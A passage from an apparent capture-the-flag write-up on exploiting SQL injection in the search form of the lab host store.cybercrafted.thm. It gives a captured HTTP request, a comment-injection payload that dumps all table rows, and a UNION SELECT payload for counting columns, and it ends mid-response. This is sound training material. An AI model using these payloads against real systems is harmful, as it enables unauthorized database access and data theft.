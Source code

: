 → SQL Injection in **store.cybercrafted.thm/search.php**  
  - Visiting the above subdomain revealed a search bar.  
  - Captured the search request in BurpSuite and sent it to Burp Repeater.  
    ```
    POST /search.php HTTP/1.1
    Host: store.cybercrafted.thm
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 19
    Origin: http://store.cybercrafted.thm
    Connection: keep-alive
    Referer: http://store.cybercrafted.thm/search.php
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i

    search=iron&submit=
    ```
  - Injected the sql in "search" parameter as
    ```
    search='--+
    ```
    - It resulted in all table entries being sent in the response.
      ```
        <div class="output">
        <div class="table">
          <table>
                <tr>
                    <th>Item</th>
                    <th>Amount</th>
                    <th>Cost</th>
                <tr>
                <tr>
                    <td>Acacia Boat</td>
                    <td>1x</td>
                    <td>0.5$</td>
                </tr>
                <tr>
                    <td>Armor Stand</td>
                    <td>1x</td>
                    <td>0.5$</td>
                </tr>
                <tr>
                    <td>Beetroot Seeds</td>
                    <td>16x</td>
                    <td>0.2$</td>
                </tr>
            ..............
      ```
    - Injected UNION payload as  
      ```
      search='%20UNION%20SELECT%201,2,3,4--+
      ```
    - The injection was successsful and revealed that there are 4 columns being reflected in the response but only columns 2,3,4 are rendered in HTML.  
      ```
      <tabel>
      ..Other entries ...          
      <tr>
      <td>2</td>
      <td>3</td>